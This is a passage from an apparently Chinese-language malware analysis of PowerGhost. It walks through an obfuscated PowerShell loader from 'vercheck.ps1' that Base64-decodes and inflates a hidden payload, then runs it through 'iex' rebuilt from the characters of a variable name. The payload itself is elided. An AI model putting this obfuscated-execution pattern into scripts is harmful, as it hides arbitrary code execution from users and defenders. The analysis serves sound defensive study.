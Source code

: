 ```powershell
(nEW-oBjECt sYSTEm.iO.StReaMrEAdER 
    (
        (nEW-oBjECt syStEm.io.coMPRESSIoN.defLaTeSTREAm(
            [SYSTem.IO.memORysTReam][COnvErt]::FroMBASe64StrIng('...'),
            [iO.cOMPrESSION.COmPrEsSiONmodE]::DecOmPrESS)
        ),
        [SyStEM.TEXt.eNCoDIng]::AscII
    )
).rEAdTOenD() | &((GEt-VaRiaBLe '*mdR*').NaMe[3,11,2]-JOiN'')
```

新代码是一个多层解码和执行机制，分为几个部分，按照从内到外解码的顺序是：

- `[COnvErt]::FroMBASe64StrIng(...)`：将 Base64 字符串转化为二进制数据
- `nEW-oBjECt  syStEm.io.coMPRESSIoN.defLaTeSTREAm(..., [iO.cOMPrESSION.COmPrEsSiONmodE]::DecOmPrESS)`：解压缩 Deflate 流
- `nEW-oBjECt  sYSTEm.iO.StReaMrEAdER(...).rEAdTOenD()`：读取解压缩后的内容

然后将结果通过管道传递给 `&((GEt-VaRiaBLe '*mdR*').NaMe[3,11,2]-JOiN'')`，这句代码的逻辑与之前从 `COMSPEC` 获取字符拼接命令一致，只是它从匹配 `*mdR*` 的变量中获取。

从文章 [Securonix Threat Research Knowledge Sharing Series: Hiding the PowerShell Execution Flow](https://www.securonix.com/blog/hiding-the-powershell-execution-flow/) 中得知，`MaximumDriveCount` 变量匹配 `*mdR*`，且索引 3、11、2 可以组成 `iex`。

将 Base64 字符串解码再 Inflate，得到 `vercheck.ps1` 真正想要执行的代码：

![vercheck-ps1_frombase64_infalte](../../assets/images/blog/malware_analysis_powerghost/vercheck-ps1_frombase64_infalte.png)
